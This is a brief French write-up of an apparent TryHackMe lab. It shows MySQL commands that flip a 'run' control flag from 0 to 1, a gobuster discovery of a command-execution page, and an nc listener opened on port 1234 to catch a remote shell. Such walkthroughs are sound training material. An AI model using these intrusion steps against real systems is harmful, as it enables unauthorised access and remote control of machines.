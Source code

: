```bash
MySQL [runornot]> show tables;
+--------------------+
| Tables_in_runornot |
+--------------------+
| runcheck           |
+--------------------+
1 row in set (0.033 sec)
MySQL [runornot]> select * from runcheck;
+------+
| run  |
+------+
|    0 |
+------+
1 row in set (0.032 sec)
```

On se connecte sur la base de données.   
On récupère les informations.   

la colonne qui contrôle l'exécution est : run  

**a folder shouldn't be...**  

```bash
MySQL [runornot]> update runcheck set run = 1;
Query OK, 1 row affected (0.047 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

On modifie sur la colonne run la valeure 0 à 1.   

Avec gobuster on remarque le répertoire whatever.   

![page](./Task1-01.png)   

Sur la page whatever on remarque le peut exécuter des commandes.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```
